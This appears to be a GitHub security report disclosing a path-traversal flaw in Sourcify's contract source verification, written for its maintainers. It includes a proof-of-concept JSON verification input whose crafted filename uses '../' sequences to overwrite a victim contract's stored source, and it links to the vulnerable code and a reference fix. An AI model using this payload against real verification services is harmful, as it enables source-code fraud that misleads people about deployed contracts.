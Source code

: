 # Path traversal vulnerability that can lead to overwriting of arbitrary source code results

## Introduction
In Sourcify, there is a path-traversal problem risk in the source code validation stored procedure. Specifically, we can define a contract file named ..hellobloc/../../../../../victim contract address/sources/a.sol in json-stardant. Thereby allowing source code files to be stored outside the expected path, e.g. the above filename allows the a.sol file to exist under the victim contract path, resulting in source code fraud as well as source code replacement.

## Attack Case

//Victimization Contract Source Code

https://repo.staging.sourcify.dev/contracts/partial_match/420/0x107D559924d935a7e56fd41D5ee4fAF36aCc5C7e/sources

//Victimization Real Contract Source Code

https://goerli-optimism.etherscan.io/address/0x107D559924d935a7e56fd41D5ee4fAF36aCc5C7e#code 

//Attack Contract Source Code
https://repo.staging.sourcify.dev/contracts/partial_match/420/0xa4369e612A00C5677DEE4C7ceCd75D1E36CAd41D/ 

The json file used for etherscan verification
```json
{
    "language": "Solidity",
    "sources": {
        "..hellobloc/../../../../../0x107D559924d935a7e56fd41D5ee4fAF36aCc5C7e/sources/Token.sol": {"content": "//verify for 0xa4369e612A00C5677DEE4C7ceCd75D1E36CAd41D \n contract UniswapV2Pair {\n    u...\n    }\n}"}
    },
    "settings": {
        "optimizer": {
          "enabled": false
        },
        "remappings": []
    }
}
```
## Related issue code
https://github.com/ethereum/sourcify/blob/baf549ecc1814ca9eb4b7632d69ecd25aa4dae3f/src/server/services/RepositoryService.ts#L633-L637

## Implementations that can be used for reference
Some code that will help you solve the problem of path traversal. This is the solution used by foundry at the cast. It may be helpful for you to solve the path traversal.

https://sourcegraph.com/crates/ethers-etherscan@9e675141953f88a190ac883ad02841370836d35c/-/blob/src/source_tree.rs?L19-20
